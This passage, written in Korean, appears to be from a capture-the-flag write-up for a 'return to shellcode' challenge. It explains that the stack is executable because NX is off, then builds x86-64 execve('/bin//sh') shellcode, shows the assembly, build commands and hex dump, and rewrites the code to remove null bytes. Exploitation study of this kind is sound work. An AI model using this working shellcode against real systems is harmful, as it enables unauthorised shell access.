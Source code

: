 이제 실행될 주소를 찾아야 하는데 flag값을 출력시킬 함수가 C언어 코드 내에 존재하지 않는 것을 볼 수 있다. 이 때 보호 기법을 보면 NX가 설정이 되어 있지 않기 때문에 스택에 실행권한이 존재한다. 따라서 내가 원하는 쉘코드를 buf에 넣어주고 buf의 주소를 가리키게 하여 쉘 코드를 실행시키면 된다.

쉘코드는 execve(”/bin//sh”,null,null)를 작성하기로 했다. 기존에 32비트로 작성한 것과는 다르게 환경이 64비트이므로 64비트 기준으로 작성해야 해서 쉘코드에 변경점이 생겼다.

- 참고한 자료
    
    [https://m.blog.naver.com/PostView.naver?isHttpsRedirect=true&blogId=win0k&logNo=221353346378](https://m.blog.naver.com/PostView.naver?isHttpsRedirect=true&blogId=win0k&logNo=221353346378) 64비트 쉘코드 작성법
    
    syscall rax값 참고 사이트 [https://syscall.sh/](https://syscall.sh/)
    

```python
section .text
global _start
_start:
	xor rax,rax
	mov rbx, 0x68732f2f6e69622f
	push rbx
	mov rdi,rsp
	xor rsi,rsi ; rdx = NULL
	xor rdx,rdx  ; rdx = NULL
	mov rax, 0x3b
	syscall       ; execve("/bin//sh", null, null)
```

```python
┌──(root💀kali)-[~/바탕화면/return_to_shellcode]
└─# nasm -f elf64 shellcode.asm                                                            1 ⚙
                                                                                               
┌──(root💀kali)-[~/바탕화면/return_to_shellcode]
└─# objcopy --dump-section .text=shellcode.bin shellcode.o                                 1 ⚙
                                                                                               
┌──(root💀kali)-[~/바탕화면/return_to_shellcode]
└─# xxd shellcode.bin                                                                      1 ⚙
00000000: 4831 c048 bb2f 6269 6e2f 2f73 6853 4889  H1.H./bin//shSH.
00000010: e748 31f6 4831 d2b8 3b00 0000 0f05       .H1.H1..;.....
```

이렇게 작성하고 나면 쉘코드에 \x00이 생겨서 \x0f\x05가 들어가기 전에 문자열 입력을 종료 받으므로 다른 방법을 통해 rax에 0x3b를 넣어줘야 한다.

64비트이므로 앞의 8비트에는 3b가 들어있고 나머지 56비트에는 fe값으로 채운뒤 shift right 연산을 통하여 56비트 만큼 이동해주면 rax에는 0x000000000000003b이 저장될 것이다.

```python
section .text
global _start
_start:
	xor rax,rax
	mov rbx, 0x68732f2f6e69622f
	push rbx
	mov rdi,rsp
	xor rsi,rsi ; rdx = NULL
	xor rdx,rdx  ; rdx = NULL
	mov rax, 0x3bfefefefefefefe ;
	shr rax, 0x38
	syscall       ; execve("/bin//sh", null, null)
```
